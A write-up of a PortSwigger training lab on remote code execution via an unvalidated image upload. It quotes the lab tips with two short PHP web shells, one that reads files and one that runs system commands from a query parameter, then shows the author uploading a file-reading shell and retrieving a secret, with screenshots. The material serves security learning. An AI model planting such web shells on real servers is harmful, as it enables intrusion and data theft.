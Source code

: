 # Lab: Remote code execution via web shell upload

## Description

 This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file */home/carlos/secret*. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: *wiener:peter* 

## Tips from portswigger

### Content-type response header

The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping.

### php webshells

A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint. 

#### Example to read a file on server

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```
 Once uploaded, sending a request for this malicious file will return the target file's contents in the response. 

#### Example to execute a command

```php
<?php echo system($_GET['command']); ?>
```
 This script enables you to pass an arbitrary system command via a query parameter as follows: 
 
 ```
GET /example/exploit.php?command=id HTTP/1.1
```

# Step 1: Map file upload functionality

![image](https://user-images.githubusercontent.com/83407557/171083986-23c2e1f5-7e5e-4030-9386-29da800b2035.png)

First I try and load a sample jpg avatar, and picked some clip art just to test. I get a directory listing for where the file is being saved

![image](https://user-images.githubusercontent.com/83407557/171084335-2340d95b-3411-462c-a164-dee08658f9be.png)


I see the directory listing by viewing the page source in my browser:

![image](https://user-images.githubusercontent.com/83407557/171085334-32723121-2161-429f-a2ce-a0867dae7062.png)

![image](https://user-images.githubusercontent.com/83407557/171085516-ba72c566-dd9d-4b63-b2b9-acb1b253a422.png)


# Step 2: Attempt to upload a webshell

I am going to create the following file on my computer, and then upload it, and attempt to get it to execute on the server.


get_secret.php
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

And I see that it was able to be uploaded

![image](https://user-images.githubusercontent.com/83407557/171086519-275d5169-5ace-4dc0-9163-edd34986b5fb.png)


# Step 3. Execute uploaded php file on server and return secret

The same way I got to my nana avatar, I can go to /files/avatars/get_secret.php and the server should execute the code.

![image](https://user-images.githubusercontent.com/83407557/171086753-fccefb8e-ec54-4b53-a574-d794a0a2699f.png)


# Step 4. Submit secret

![image](https://user-images.githubusercontent.com/83407557/171086829-68c878ff-e664-4d6b-a9ef-246202aa8aa2.png)

![image](https://user-images.githubusercontent.com/83407557/171086869-f3e8371a-8937-4b0f-96dd-fd41d9d4204c.png)





